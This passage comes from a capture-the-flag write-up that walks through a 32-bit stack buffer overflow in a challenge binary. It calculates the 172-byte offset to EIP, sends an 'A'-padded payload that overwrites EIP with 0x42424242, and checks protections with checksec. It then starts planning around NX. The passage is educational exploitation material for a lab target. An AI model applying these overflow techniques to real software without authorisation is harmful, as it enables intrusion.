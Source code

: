 All variables have its own size, in this case is easy to know what is the size of this variable just by converting the `0xa8` to decimal that is 168. Ok with 168 bytes we fully fill the variable, now we have to replace the stack things until arrive to EIP and take control of the program. the assembly already told us that we have `0xa8` bytes until we arrive to `EBP` ok, in this arch this register has 4 bytes, so lets add it to our number and we have 172.

Let's test?

```bash
# here we will add the permission to execute the program
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ chmod +x port-65144

# here we understan how is supposed to be the input we will give to the program
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ ./port-65144
Enter your buffer: asdf
not this time


# here we send the payload with 172 charactes "A" and 4 "B" and
# we see that the message change to "Segmentation fault (core dumped)"
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ echo $(python3 -c "print('A' * 172)")BBBB \
| ./port-65144
Segmentation fault (core dumped)

# and here we can check the segfault
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ dmesg | tail -n 1
[39206.428987] port-65144[5871]: segfault at 42424242 ip 0000000042424242
sp 00000000ffba4d50 error 14 in libc-2.30.so[f7dc5000+1d000]
```

This last message says us that the `IP` or `EIP` had value of `0000000042424242` and the segfault was in this address. If we see the <a href="https://www.ascii-code.com/" target="_blank">ASCII Table</a> we can confirm that the number `0x42` (hexadecimal) is the same as "B", knowing it, and remembering we sent 4 "B"s and the IP is `0000000042424242` 4 entries of 42.... hmm.... gotcha! We can overwrite the `EIP`.

Now we have it, let's see what we can do with this binary:

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ checksec port-65144
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
reisraff@3dbbde46a935:~/workdir/challs/port-65144$
```

Not that easy, we have some <a href="https://en.wikipedia.org/wiki/Stack_buffer_overflow#Protection_schemes" target="_blank">properties of security</a> enabled in this binary, the one that will make it more difficult is the <a href="https://en.wikipedia.org/wiki/NX_bit" target="_blank">NX</a> "no execute stack". With this we can't simple add malicious code into our payload and point to it address, so we have to read the code a little bit more, but wait... I remember that we had something `flag.txt` and the `open` function, may we could point to it...
